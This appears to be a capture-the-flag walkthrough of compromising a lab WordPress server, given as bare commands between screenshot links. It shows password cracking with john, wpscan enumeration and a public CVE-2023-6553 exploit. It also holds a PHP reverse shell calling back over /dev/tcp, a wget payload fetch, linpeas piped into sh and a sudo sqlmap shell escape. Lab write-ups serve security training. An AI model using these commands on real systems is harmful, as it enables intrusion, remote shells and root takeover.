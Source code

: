 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9f53dde2-8fda-4c59-80d5-d6b02a6086b7)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b8a594be-31ef-4467-91f7-fbaa33ad2067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/00806b5b-8a84-4cfc-88fc-22413357b290)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d2b41dd2-9edf-4593-b360-1f436cae93ee)

```
wpscan --url http://62.173.140.174:28580/ --enumerate ap --plugins-detection aggressive
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c687398-0fe3-43b0-b37e-e8588fe155fc)

https://github.com/Chocapikk/CVE-2023-6553
```
python exploit.py -u http://62.173.140.174:28580/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f23edae7-f8e4-41a6-ab3a-029afce66eca)
```
echo '<?php phpinfo(); ?>' > /var/www/html/test.php
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c66d94c1-de4b-4215-9ad9-3994e66440eb)
```
wget http://IP:1234/myrev.php 
[cat /var/www/html/](http://62.173.140.174:28580/wp-content/plugins/backup-backup/includes/myrev.php)
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
nc -lvnp 1234 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c492a62a-122a-4513-a8a0-b40b836af3b0)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/91ab5755-96d1-4f8c-b35c-c7c66bcfb5c3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2ee223bb-6ddb-4432-9ee3-4b3a83dae374)
```
nc localhost 1337
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f63d03aa-f8c0-432d-a33b-ad36ffad97fc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/43d4cfea-11ca-4e1d-831f-f6494626d3cb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6afbcaad-2e60-4847-8278-f2c9e524cfab)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ea6d2d6c-3fc5-4bd2-b53f-a833539a2443)
```
ssh henry@62.173.140.174 -p 28522
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6315c96f-25b3-4703-b83a-b072a7168a68)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/06f15495-1c5c-445c-b8a2-59c2a43f4c90)

https://gtfobins.github.io/gtfobins/sqlmap/
```
sudo sqlmap -u 127.0.0.1 --eval="import os; os.system('/bin/sh')"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e90cd810-a421-4c30-bcab-2afd7301be7a)






